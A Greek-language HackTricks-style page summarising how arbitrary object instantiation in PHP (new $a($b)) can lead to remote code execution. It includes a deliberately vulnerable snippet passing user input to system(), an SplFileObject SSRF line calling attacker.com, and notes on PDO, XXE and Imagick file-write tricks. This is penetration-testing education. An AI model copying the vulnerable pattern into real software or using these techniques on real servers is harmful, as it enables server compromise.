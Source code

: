 # PHP - RCE εκμετάλλευση δημιουργίας αντικειμένων: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Αυτό είναι βασικά μια περίληψη του [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Εισαγωγή

Η δημιουργία νέων αυθαίρετων αντικειμένων, όπως το `new $_GET["a"]($_GET["a"])`, μπορεί να οδηγήσει σε Remote Code Execution (RCE), όπως αναφέρεται σε μια [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Αυτό το έγγραφο επισημαίνει διάφορες στρατηγικές για την επίτευξη RCE.

## RCE μέσω Προσαρμοσμένων Κλάσεων ή Αυτοφόρτωσης

Η σύνταξη `new $a($b)` χρησιμοποιείται για την αρχικοποίηση ενός αντικειμένου όπου **`$a`** αντιπροσωπεύει το όνομα της κλάσης και **`$b`** είναι το πρώτο επιχείρημα που περνάει στον κατασκευαστή. Αυτές οι μεταβλητές μπορούν να προέρχονται από εισόδους χρηστών όπως GET/POST, όπου μπορεί να είναι συμβολοσειρές ή πίνακες, ή από JSON, όπου μπορεί να εμφανίζονται ως άλλοι τύποι.

Σκεφτείτε το παρακάτω απόσπασμα κώδικα:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Σε αυτή την περίπτωση, η ρύθμιση του `$a` σε `App` ή `App2` και του `$b` σε μια εντολή συστήματος (π.χ., `uname -a`) έχει ως αποτέλεσμα την εκτέλεση αυτής της εντολής.

**Οι συναρτήσεις αυτόματης φόρτωσης** μπορούν να εκμεταλλευτούν αν δεν υπάρχουν τέτοιες κλάσεις άμεσα προσβάσιμες. Αυτές οι συναρτήσεις φορτώνουν αυτόματα κλάσεις από αρχεία όταν χρειάζεται και ορίζονται χρησιμοποιώντας `spl_autoload_register` ή `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Η συμπεριφορά της αυτόματης φόρτωσης διαφέρει ανάλογα με τις εκδόσεις PHP, προσφέροντας διαφορετικές δυνατότητες RCE.

## RCE μέσω Ενσωματωμένων Κλάσεων

Λείποντας προσαρμοσμένες κλάσεις ή αυτόματους φορτωτές, **οι ενσωματωμένες κλάσεις PHP** μπορεί να είναι επαρκείς για RCE. Ο αριθμός αυτών των κλάσεων κυμαίνεται μεταξύ 100 και 200, ανάλογα με την έκδοση PHP και τις επεκτάσεις. Μπορούν να καταγραφούν χρησιμοποιώντας `get_declared_classes()`.

Οι κατασκευαστές που ενδιαφέρουν μπορούν να εντοπιστούν μέσω του API αντανάκλασης, όπως φαίνεται στο παρακάτω παράδειγμα και στον σύνδεσμο [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Η RCE μέσω συγκεκριμένων μεθόδων περιλαμβάνει:**

### **SSRF + Phar Deserialization**

Η κλάση `SplFileObject` επιτρέπει SSRF μέσω του κατασκευαστή της, επιτρέποντας συνδέσεις σε οποιοδήποτε URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF μπορεί να οδηγήσει σε επιθέσεις αποσυμπίεσης σε εκδόσεις του PHP πριν από την 8.0 χρησιμοποιώντας το πρωτόκολλο Phar.

### **Εκμετάλλευση PDOs**

Ο κατασκευαστής κλάσης PDO επιτρέπει συνδέσεις σε βάσεις δεδομένων μέσω DSN strings, ενδεχομένως επιτρέποντας τη δημιουργία αρχείων ή άλλες αλληλεπιδράσεις:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Οι εκδόσεις του PHP μέχρι την 5.3.22 και 5.4.12 ήταν ευάλωτες σε επιθέσεις XXE μέσω των κατασκευαστών `SoapClient` και `SimpleXMLElement`, ανάλογα με την έκδοση του libxml2.

## RCE μέσω της Επέκτασης Imagick

Στην ανάλυση των **εξαρτήσεων ενός έργου**, ανακαλύφθηκε ότι η **Imagick** θα μπορούσε να αξιοποιηθεί για **εκτέλεση εντολών** δημιουργώντας νέες αντικείμενα. Αυτό προσφέρει μια ευκαιρία για εκμετάλλευση ευπαθειών.

### VID parser

Η δυνατότητα του VID parser να γράφει περιεχόμενο σε οποιαδήποτε καθορισμένη διαδρομή στο σύστημα αρχείων εντοπίστηκε. Αυτό θα μπορούσε να οδηγήσει στην τοποθέτηση ενός PHP shell σε έναν κατάλογο προσβάσιμο μέσω του διαδικτύου, επιτυγχάνοντας Remote Code Execution (RCE).

#### VID Parser + Αποστολή Αρχείων

Σημειώνεται ότι το PHP αποθηκεύει προσωρινά τα ανεβασμένα αρχεία στο `/tmp/phpXXXXXX`. Ο VID parser στην Imagick, χρησιμοποιώντας το **msl** πρωτόκολλο, μπορεί να χειριστεί χαρακτήρες μπαλαντέρ σε διαδρομές αρχείων, διευκολύνοντας τη μεταφορά του προσωρινού αρχείου σε μια επιλεγμένη τοποθεσία. Αυτή η μέθοδος προσφέρει μια επιπλέον προσέγγιση για την επίτευξη αυθαίρετης εγγραφής αρχείων στο σύστημα αρχείων.

### PHP Crash + Brute Force

Μια μέθοδος που περιγράφεται στην [**αρχική αναφορά**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) περιλαμβάνει την αποστολή αρχείων που προκαλούν μια κατάρρευση του διακομιστή πριν από τη διαγραφή. Με την brute-force του ονόματος του προσωρινού αρχείου, καθίσταται δυνατή η εκτέλεση αυθαίρετου PHP κώδικα από την Imagick. Ωστόσο, αυτή η τεχνική βρέθηκε ότι ήταν αποτελεσματική μόνο σε μια παλιά έκδοση του ImageMagick.

## Αναφορές

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
